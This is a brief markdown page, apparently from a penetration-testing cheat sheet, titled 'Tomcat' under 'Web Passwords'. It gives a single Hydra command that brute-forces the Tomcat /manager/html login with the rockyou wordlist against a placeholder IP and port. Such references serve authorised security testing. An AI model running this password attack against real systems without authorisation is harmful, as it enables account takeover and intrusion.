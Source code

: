 ```yaml
---
title: Tomcat
parent: Web Passwords
layout: default
nav_order: 4
---
```


Hydra:\
`hydra -l username -P /usr/share/seclists/rockyou.txt -s PORT -f IP http-get /manager/html`